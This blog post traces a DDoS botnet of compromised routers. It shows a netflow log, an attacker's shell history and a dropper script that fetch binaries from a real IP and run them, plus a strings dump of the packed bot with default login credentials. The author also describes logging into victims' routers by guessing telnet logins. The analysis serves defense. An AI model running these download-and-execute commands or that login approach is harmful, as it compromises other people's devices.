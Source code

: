 = Large TCP attack, trace down the botnet!


A friend of mine who owns a datacenter (and (D)DoS mitigation company) contacted me earlier this week asking for help with a large attack that he was being faced with, the attack was maxing out his uplinks on a large TCP attack (insanely impressive considering his bandwidth!) So I thought, why not, let's find ourselves a botnet ;)


##### How is that even possible?


Tracking down a botnet usually is pretty difficult; however, this was pretty simple, it is actually something that we have a lot of experience in! We're looking at another LizardSquad botnet! 

He sent me a flow of the attack and we got to work:

```
2016-01-04 14:14:00.399     0.000 TCP     217.172.189.82:34998 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:57.224     0.000 TCP     115.202.191.90:9577  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:00.099     0.000 TCP        61.80.20.38:63603 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.168     0.000 TCP     217.172.189.82:56726 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.483     0.000 TCP     166.78.102.158:15207 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:57.009     0.000 TCP       172.98.72.53:36243 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:58.248     0.000 TCP    120.198.124.126:21322 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.348     0.000 TCP        52.11.12.20:19324 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:56.479     0.000 TCP      202.164.61.43:47872 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:57.983     0.000 TCP      107.155.95.93:45379 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:57.358     0.000 TCP      54.75.241.203:13777 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.758     0.000 TCP      14.37.200.217:16724 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:55.832     0.000 TCP       122.84.186.5:65271 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:58.501     0.000 TCP     106.185.37.124:57833 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.127     0.000 TCP      169.55.103.20:15782 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:00.085     0.000 TCP       54.67.71.210:55357 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:57.545     0.000 TCP    218.156.116.224:40416 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.833     0.000 TCP       186.46.60.98:52705 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:59.259     0.000 TCP    112.167.253.121:11766 ->     [redacted]:25575        1     1440     1
2016-01-04 14:13:58.287     0.000 TCP      177.92.61.253:62127 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:44.442     0.000 TCP    219.137.241.217:49522 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.377     0.000 TCP    176.102.200.142:16714 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:39.836     0.000 TCP       14.49.214.45:23117 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.194     0.000 TCP       58.16.83.203:39372 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.984     0.000 TCP       58.16.83.203:45570 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:40.431     0.000 TCP      187.112.88.35:59557 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.246     0.000 TCP       58.16.83.203:57344 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:40.932     0.000 TCP       183.54.30.68:21881 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:40.422     0.000 TCP    223.199.174.125:39834 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:39.646     0.000 TCP       58.16.83.203:12134 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.681     0.000 TCP       58.16.83.203:48121 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.234     0.000 TCP      159.192.252.6:13795 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.847     0.000 TCP       14.49.214.45:4686  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.144     0.000 TCP       58.16.83.203:24822 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.481     0.000 TCP      113.90.211.48:35364 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.192     0.000 TCP       58.16.83.203:29907 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.826     0.000 TCP     14.148.125.152:7576  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.160     0.000 TCP      183.48.13.221:11301 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.516    59.154 TCP       [redacted]:25575 ->     71.88.39.227:57468        4     2421     1
2016-01-04 14:14:44.063     0.000 TCP       14.49.214.45:60449 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.888     0.000 TCP    113.212.234.130:59028 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.847     0.000 TCP      181.196.48.86:65280 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.421     0.000 TCP      14.26.179.172:35789 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:44.884     0.000 TCP     123.171.100.63:26522 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.656     0.000 TCP    181.113.122.198:41761 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.734     0.000 TCP       58.16.83.203:40215 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.096     0.000 TCP     125.126.140.71:38937 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.000     0.000 TCP       58.16.83.203:27269 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.061     0.000 TCP     125.126.140.71:22135 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.972     0.000 TCP       [redacted]:25575 ->   187.189.173.59:46214        1       40     1
2016-01-04 14:14:41.566     0.000 TCP       14.49.214.45:12982 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:44.043     0.000 TCP       14.49.214.45:47204 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.228     0.000 TCP     123.248.43.104:10713 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.475     0.000 TCP       14.49.214.45:28415 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:40.848     0.000 TCP       14.49.214.45:35932 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:41.985     0.000 TCP       58.16.83.203:28830 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.572     0.000 TCP       14.49.214.45:39862 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:40.998     0.000 TCP    117.221.186.109:13341 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:42.333     0.000 TCP       14.49.214.45:44365 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.793     0.000 TCP       14.49.214.45:11930 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:43.460     0.000 TCP       58.16.83.203:51506 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:48.070     0.000 TCP      113.73.204.96:52410 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:48.536     0.000 TCP    113.212.234.130:37867 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.707     0.000 TCP       14.49.214.45:30316 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.355     0.000 TCP     14.148.125.152:21674 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.880     0.000 TCP     222.87.114.175:27252 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:47.450     0.000 TCP     222.87.114.175:65432 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.921     0.000 TCP       183.48.15.89:39099 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:47.877     0.000 TCP        64.129.2.28:11758 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.403     0.000 TCP     116.20.154.119:42898 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.851     0.000 TCP     183.133.39.158:1185  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.321     0.000 TCP        64.129.2.28:6104  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:47.916     0.000 TCP      183.12.176.91:59888 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:48.148     0.000 TCP     180.218.53.110:48611 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.377     0.000 TCP       14.49.214.45:61547 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:47.049     0.000 TCP      113.90.211.48:65215 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:44.619     0.000 TCP       14.49.214.45:44700 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.315     0.000 TCP        64.129.2.28:55662 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:47.296     0.000 TCP    113.212.234.130:63789 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:49.402     0.000 TCP     14.148.125.152:29441 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:44.855     0.000 TCP       218.63.98.30:12766 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:49.078     0.000 TCP       183.48.15.89:54063 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.983     0.000 TCP      183.48.13.221:29057 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:47.951     0.000 TCP       [redacted]:25575 ->    68.36.108.162:51025        1     1500     1
2016-01-04 14:14:49.888     0.000 TCP       [redacted]:25575 ->     190.48.99.60:7368         1       40     1
2016-01-04 14:14:49.359     0.000 TCP      14.122.74.254:5730  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:49.242     0.000 TCP       183.48.15.89:57520 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:48.881     0.000 TCP      183.12.176.91:5247  ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.822     0.000 TCP    176.102.200.148:53722 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:46.555     0.000 TCP     123.171.100.63:48344 ->     [redacted]:25575        1     1440     1
2016-01-04 14:14:45.606     0.000 TCP      183.48.13.221:10227 ->     [redacted]:25575..
```

Now you may be thinking, how does this help us!? Well, if you look at the attacking source IPs you'll notice that all of them have one thing in common, they're running telnet (YES THEY ARE ROUTERS!) so we grabbed a few until we were able to login to one successfully (not rocket science) and this "hacker" wasn't careful at all...

I ran the first command that came to mind, "history" and got prompted with 
```
  316  cd /tmp || cd /tmp; rm -rf /tmp/*; wget http://176.123.7.193/w.sh; sh w.sh; tftp -r t1.sh -g 176.123.7.193; sh t1.sh; tftp 176.123.7.193 -c get t2.sh; sh t2.sh; rm -rf /tmp/*
  317  sh
  318  cd /tmp || cd /tmp; rm -rf /tmp/*; wget http://176.123.7.193/w.sh; sh w.sh; tftp -r t1.sh -g 176.123.7.193; sh t1.sh; tftp 176.123.7.193 -c get t2.sh; sh t2.sh; rm -rf /tmp/*

```

yay we found the server that he is fetching the files from! (Yes he is able to do something as simple as wgetting a file and make a botnet this large...#infosec please! D:

I don't want you to go to those links becasue then he'll have your IP logged; however, here is the "w.sh" file:

```
cd /tmp;rm -rf *;wget http://176.123.7.193/dskljn;cat dskljn >busybox;chmod 777 busybox;./busybox
cd /tmp;rm -rf *;wget http://176.123.7.193/kjdnc;cat kjdnc >busybox;chmod 777 busybox;./busybox
cd /tmp;rm -rf *;wget http://176.123.7.193/sdokdljn;cat sdokdljn >busybox;chmod 777 busybox;./busybox
cd /tmp;rm -rf *;wget http://176.123.7.193/sdalk;cat sdalk >busybox;chmod 777 busybox;./busybox
cd /tmp;rm -rf *;wget http://176.123.7.193/akddx;cat akddx >busybox;chmod 777 busybox;./busybox
cd /tmp; busybox wget http://176.123.7.193/dskljn; chmod +x dskljn; ./dskljn; busybox rm -f dskljn*
cd /tmp; busybox wget http://176.123.7.193/kjdnc; chmod +x kjdnc; ./kjdnc; busybox rm -f kjdnc*
cd /tmp; busybox wget http://176.123.7.193/sdokdljn; chmod +x sdokdljn; ./sdokdljn; busybox rm -f sdokdljn*
cd /tmp; busybox wget http://176.123.7.193/sdalk; chmod +x sdalk; ./sdalk; busybox rm -f sdalk*
cd /tmp; busybox wget http://176.123.7.193/akddx; chmod +x akddx; ./akddx; busybox rm -f akddx*

```

The simplicity is killing me here, so now you might think that "THE BOTNET IS ON 176.123.7.193!!!" but it could actually not be, it'd be smarter not to be hosted on the same server but hey, nobody said this guy was smart!


##### Let's check the binary!

Don't let this scare you, it's very simple, let's read through the plain-text strings on the executable and see what we can find:

```
-:~ suedadam$ strings /Users/suedadam/Downloads/akddx 
UPX!
Mx[]
T$
  1
PTRhD
.@%*
$kx#
IUTf
duJj
7i^h
^PcuT0
{$^3



%q
M6(S4
aoaf
4o`(
+
 u>d
YZ


X(?C
?to|
N3@t<s
uW&pr
8q2x
#f p
9 =s
~OlP
J4$j-
9&wc
\93r
t%8En
'$0H
<i| B
tU@'x
k }!<
,V#*4
FGGmKNNHH
q$zC
$<Xv
 G`

&`@s
C*RU
<g$A
$!lC3
{#2L
as%,g
Ht3b*

HXK\
LF$!
XF`b
1[^:HG
0V%l
&
 K

B"&g"
 "7`BF

u07
   d
#$Z6
QCjNU
B
 CP
qSlh
ddlhd
;a|P
>^SrXn
@6CJ
D'Dr$_

8HBM
H!^U
#%)X
IF8<'
40iX
4,
  7d_
1&$D4
E`\$@
`T
  !##PL,
r22r
rHD@]
H7m<84
0<#g

!#(O
+Fv%
aAaD$m
^ u
   c
z:i%]`
G3Tw
sB"S
N*xWi
A=#r
6hp"
WtQ5i{
M#oY'
2HHH
rDHT$
ohJFE*
$"$I
;FHm
f*FpQ
x!
  K
%6HOp
^\$ ;
K~7!j
PPV_s
J>Ur
S\ZY
v
 ww2
V S9
C7C
   X
h
  &
F=k7
XS5l;
qV_+$
i]Tt
buKu
DJ\t
d9LQ
wn'~k.
in(3
h2Oj
 @tH
,f
  IRF
PR5u
hJ1V
c=^>!G
N/FLY

$at0
X&X ZP
K`Uh
4p;C
+pb%
 ? YP
|yd/n
g_Uh
'+^j-
6,r4A
pm^#a
TC&k
s.Uc
kgd,3
?uL=m
a8xu>pZ

],^
Y{lf
C*PG
.a{R`TW
TH&s
1WVz
_q;5
$ti;+ta
Y'Gx

@,<
7gQQ'{k
>D*~
?a,?
8VSw
Qu_1
Bf4,
[(Tb
ma+rX
)%WW
 -Fv
:|Y2X
f;9ue
`X4D
io-@
 4
  B
AxVS\
5Wl-
;J
  r
\x}p
6DZN
kKPxG
J%z5
@ g*e
'T&H
!}-[^D
^UC4Ae
9mhb
]l20
Rw[4

R0".
IPg~
P#qz
 O *
;K s
^Z<XZ[B0
P<Y[[k
X"d`
_-ghv
E[?<
w66I
Y[M,
Wj*@
3RR4

DI{@
EBLi
@Pa6
$PuF7!8
C<=s
0Kp'pE6
l!1u
$4 (
z8>B8
Sr @
:Dcql
qQ$kh
X,Z-
VtaS*B

3d
  '
A2rY
[LnA
PF4+M
-LPWS
%IA^
h <F
l``l
mtkG
CRRS
C"tk
IGzX;
J3R1$<
HLnw
A
 HA
>iSVW
G,_^[
Z87,x
PRQW!<
7}[F
vm@G
.P?V
yK 83
6s%K
;2z
   {W
0L`F
@"*L
$m,,'
i{
  $
c`C$M
grkSa
RRVj
LN$)
:es8
X[^o
1hww
y+8`
Q2$S70
y>rA
PF,(
S&!&
$M0@|n
~#1T
wE~!
VVh>2
>LB-

:Z4WP&[
s{.iNU$
SD2g
R@8<m
%tG`
'|Dss

B~@=
B{/,

F;q
JA$k
,\~p
56VD
x3%J
RuV-
;%:X(
f<Mb
<mtN
U&:4L
C!j2k
V5am
H)l5
e/L$
FM!\
mHd

@)F^YF
8JI9
%[(XBl
3AITU#
@J")
.Lt~`o
L|`1h
XElRd
TCCt
\/<>
0HPh
AehnE
]"Lj
{ 3r

E+ 
i,H0
C.`B@
APr-Bth
1k%%
 Dt1\9
(28C
?Q
  9
/||B
Dt%@;-pE
JmD2X4D
;Nr[
J\Q`j
##)<
T0~Z
w)(u
<p43a(
f2#,a
l90}
{;ZrzZ
]y~L
 Vw5
p%8N
;X,tQ
+9k)
p<RPX
<9Atl
w sl
icB|A
xO<7=DX
~ptR#.=n
2:X\lv]Rt
$qbi
SSPQ)i
9CxF
J]ba
B6VZ
saZ5X
[YXE
dPQh
StK34
l5{?
[t]i
[4tc
G;<$l
wKX7
B@h4
3E69
KF= 2
Y[XZ
;0OCXRD
(<`v
WFTa
E.'>N!
*SE, .
EVSf
bU$u
rJh%#c`
U1B5
~^aF
IUB<
Y/IPPh
r!@9
WAAz
5`"x
=d)3
x(D0
?`Iw
]uVP
f0P!y
]gUu
" P:N#
NU-NU
!Q\h,
H,PbV
P(;M@0 K
-rcQW
6P,P
"lt$ 
I"n(
;P8"Q
Pl84
ltbWt
'<!83
u'z%
6U
  ^
u?z=^^
7(Q/
[CET
$jsd#
d|4>
ft( 
.0Ktt
:!l_
"JoyD
VzDUGQ*A
hlcFF
TutE
FD,D$dX
PruA
3p{R[4N
E9
  Q
?=;y@
j=,a
QUA(
ZRj1
m1$L
2XHu

LZYIU
x^u*j
3hVl3"
~Tgt
    bA
nPkS
QWjJ
hiX%
2P8Pb
.-,A&E
N(E3
HP,|6
[pPM]"
 ;#JT|
Tl}II7
3 tw
0P@uCf
WfQgv
PO
  3
Ch, O
=@qu*
<P:!
Y&@0
={R:
\PPNL\
r[#dJ
FXdF6QQ
dOz"9
XRaG
S5H[
SOEC
Z `Q
`lQ7L
=B :
PWVK
&,(F
DF"r
mHPO0
WU6%
Vn"Q
    p
9h
  uV

R@rE
.DVH
O;94
oet1
ocO

 vCC
dTv-
X[TC
P%N|
/D^]
j7kA
UQh$
L,A,
T=)A
R$N@(BT$
RQ2ZFuWR*f
g+kX(G
 SQh4
}\<3DA
dHQ-
uVK3QQ
DySS
0NPQ
tg8&,
xL*O
oXY@
J@t]U*4HB
K}4m,.
(}]C
pFay
4:+k
P_,*
A=XT
\D-F
7PV3P<`C@7[[^7
.u5AMmTm(A
~[0/
6.M

 D|O+XZ
88dd
XA<4
O|.Vj
k$hv-
`Gx@p
9(
  x
8@09@
W^b[ A2:
;ir 
Kucv
w7At
9js?
t"Q>
SZ.<Q
$z-;
@_5X
hd1@,
F,m,
*lJt%
rE4P
a@0X
B8jb\M
n!W,+
JlD'
!'x{
>
 -0
(X)B 
&mC
   t
zF5M,
tP@y
&XZj
[@!t{
~<\mPj
Wd-*J
<
 C@
KcPp0
@`n;bT
SA*F*
Qj V
j)RH`
oF<Uq
NPC0
KHC2

6vD
F5(r
:,!2_
F00v9T%&
E`FAt
M7hxL
$e42
riPh:
+^WE1
cE0s$
}3ch
Oj:G
OQ2F
;]d|
|RWU
7_x9
PFSf 6X#|
;xwn
xu,;^
4C5h}
pbKA
tMQ3<
+X29u"H
;UUh
B0kH]4
FFFW
G2(1
Z8dP
lt7<af
hmV{
 Y]MpG
#]@>
E
 se"
4tmP
/RFVxB
#(B}
Z %0,
9}W1z
@p!D
KK:;Cs
*`DN
4*HU["
oKK@
RSP)
D=Y[[
S'Wh
DPP8
XSV(4D
B8)'
 m@"
+uDG
=$I!
.uAkw
t+FM
fyQG
l;4T.F
B
 ZN
vwwz
PhGT
!%+}
mD t)
t{@p<*
|@d0
7(`{J
uw%:a
Mm-O
WWR\
CLDG
P(XQ
$,C@

A
   
#z[FZ'
Z%9l73
=hi3
bXqJ
M;P5A
MDwct
K94u
wU9#uG
N)LlL
OC1V
]5Ez
zL6G

+l-s^V
`E#1
$@OS
*76.123.
root
admin
log
   gues
suppor
cisco
0#changemem
defaul4pass
Svizxv
f: %s.-c2
gp/bw/
lTY 
c/cpu
om,f
BOGOMI
/HING
:>%$
rectr
d /tmp || 
; rm -rf
        /*
[Xhttp://>/w.
g[kD
g -K
c(t1)
wc gt2S
Faile
open
rawS8ka
s mo
i;ea
fla8"
GETLOTL
NNER
STO6EDB
ARTHOL/J
DYTC
KILLATT
ONx 
9UBD
DU_SH
2>&1
0.9.30
e/l%!
|WCG
hlLjztqJ
difFeEgGaACScs`+
0-#'IJ
Unknown "Zr
Succe
Op+a^o38Z

mimt
h-6#ow"
ntnup5
vicV
rDArgumeI 
'maBB1k
CscriptVT
%pnrc
unavRab>
2\'m;
rubu
oG-A
Bap(
X6a;T
&on5IGeg
;Z2G5
Z4of
m^o2in bu
d.,Dpx
o$ed
meRN
.cCw
e,qv
oIft
Ne 1
1c
  od1
-sTp
th[A
PKag~
fk%=*Lbj
[RFS
F^Xgp_Nb_
I=aU
!co5$n
'lMies
KalZ
81er
As#a
kx"4r
S|(YAx
%,I6
Hva'
=(T<d;
%qXAe
4sp>qnnt
 ponI
us#Cc
eMoC
7fer
aed'W
mt5%#B
: cB-`'
VNost`V
ENFS
XENIX
4`5X;
-cP{^
^C'6{
L(knN
C5a_h_\
[%Er
px~_
$P:6
j
 H<(
EXc/f
lv.u
mKRPC_(
na[uh
'why
),s1V8
Ks2A*
,xOK
4&6Y
C]`a
Y2>;2x
Nw)G

2Vm|g
PS,H
eX2:k(
~ULph
f}ur
eL|%
Z-~o
P7cy
QUTU
|S(f
CAk[S
T$(9
H+|$,
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.91 Copyright (C) 1996-2013 the UPX Team. All Rights Reserved. $
PROT_EXEC|PROT_WRITE failed.
D$
  V
/proc/sm
elf/exe
[jUX
T$
  `G
PO6<
UPX!u
>)?`
_um9
@bQs
>tgco
5Z3@
af~{
GCC: (GNU) 4.1.2
2.symtab
init
texf

roda
eh_frame
ctors
got.pl3+bs
com-n
`'``
5;LO
+
 H3`
~C2$
/$3H
<Dwa/
XK/7
P ]7
6OA&
X"_A
_)/I
2$C2
C2$C
$C2$
9$C2
T\c!
_C2d!
8I$C2$^s2$C2
C2$C
$C2$
2$C2
C2$C
C2dC
Zd/!_
On?y
dC6H

5$C2
 M3QU
dH*=
d5>J
VanH
fmwH
2dC6G?Y
}C2$C
$C2$
2$C2
C2$C
w$C6d/
2$C2
`3$C
Kb7`
l@s/

;FT
 M3H
7`]Y
dH"4dH
dEOX
eoy

B@B
   6
t#o"
?"o#
 >7a7
v_o+
/G7 u
O%e7
"E+w
^/=aw
h'Vos?
 OOS7`u
/k7XT?
!_`3X
_^"?
omMu
 B`9v
.`pB#o
9%O[

/E/t%
Hp!>
,; u
XBp/
D.c7 
A(`g
.c?C
-!^s)?
cjow
8?:h
?x,/<
4'O>-/"
_)^R
UCo/OV
%j7j
dO/o
R_o1
\%EwY_1
`/v]@
9g(\
-!Fj
?5oZ
ZVuo5
."`?o7
ewh/
48/OI
Yq0*
xY}'_Mo'
r9?]
lXaV
?/7;
A<oO
>/XV<
7XGw
`0/>_
om u
hb?!
'oP@
%o?@
bT1_w
B?Iw
oBoB
h _CO
Co?g
wh//_!
Eo&+v./
-?~E
hFOO
FD|D2
,+N8Go
m7 ?
O/Jo9J
?
 K}
a___
Ko,;S,
 mXF
/ ibc/sysdeps/
              nux/i386/c
rti.S
stuff.
__CTOR_L
DEH_FRAM
E_BEGIN
-1pleted.2429
w"do_global
ject!8
ummy
}END~
     z
entF
QU.;
r&tchar
p2_pid
rrno
Mthread_sel
manag
[sm{
ld#n
_.Mm
Jvent
ftk.c 
g7sJc
)ock
Yld[
u*ph
queu
+4|#
_ownTt
Osus
/[B0
&_R 
Rbug%
fl%on
uizeO}
_mpDple
dvar
@lLqt
on3%
(Woc
keys
    k<b
?p=L
f=nn
+a`_
uler
y9lz
y
 _b
C4160
4370
.c
  )
1"nge
pylenn
w:/C
)(Bs!
tc9pl
F00=
e73me
Hwnd
boroms

-PJv_r(#vy
tcU0
MhO\
RP+VARS
.5915
X__q
bresC
n
 _WRITE
-IEi
=fmt
p10_
xPis
#a-l
48>b
-ScX
h~isv
u"uZ
"87+
bytes
l-sup
_Srf
pd>v
4051o
r.
  7
n4FH
]S85#p
a6dgtcW
w&k0
s)v<
SEAD
rf0v
n3\0
L%,#
GLOBAL_OFFSET_TABLE_:
                     [
E0`$(
qsD."GI
lH0l^
Lina

&k/X@
KcA,
!G$#b~
(!m8%
9b%T
8h]Bs#
vcgd0[
EIxpT
v,bs
+bos)
#ipe
IP. a{
HXLo
pu%yE
etx+-
7!d0
ypUH
xfC\
Host
xStr
^FMh
BN'CR
a68C__<
\o+a 
CeLH
unAa
9post
d eP
ab`p
 0O=
#:ed

K:"
2ain
H-0X
G_2@l_0
viKn
tPa.5
UCB

aPdY
~?UJV
s[GI
xfor>
0vfi
P.cBuilg
j\jI
P|cast
oErIP
Ut4xb,)8cys
z$%ki
_\h@0V
p~jn
_VoR=#
